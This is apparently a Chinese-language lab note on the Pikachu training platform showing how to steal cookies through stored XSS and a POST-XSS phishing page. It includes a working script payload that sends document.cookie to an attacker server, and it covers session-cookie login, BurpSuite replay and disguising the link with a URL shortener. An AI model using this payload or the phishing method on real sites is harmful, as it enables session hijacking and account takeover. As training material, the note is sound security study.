# XSS盗取Cookie实例

## 存储型XSS注入

将XSS代码注入到服务端并被保存，任意客户端访问都会执行恶意代码

### 注入payload

```shell
'"><script>document.location='http://192.168.125.162/pikachu/pkxss/xcookie/cookie.php?cookie='+document.cookie</script>
```

携带本机保存的当前网站的Cookie信息向攻击者服务器`192.168.125.162`发送请求，攻击者获取Cookie




### 攻击者获取Cookie信息




【持续学习中···】


## POST_XSS注入（钓鱼网站）

- 用户客户端对`192.168.125.155···`为已登录状态
- 用户点击钓鱼网站→访问已登录的网站→钓鱼网站代码携带用户已登录网站的Cookie信息请求攻击者服务器
- 攻击者得到用户Cookie信息

### 制作钓鱼网站代码

- 访问已登录网站
- 携带Cookie信息请求攻击者服务器




### 客户端访问钓鱼网站








### 攻击者获取到用户Cookie




### 攻击者利用Cookie登录








### BurpSuite抓包登录



### 伪装钓鱼网站

#### 生成短链接

```shell
985.so  #短链接生成网站
```



#### 生成结果


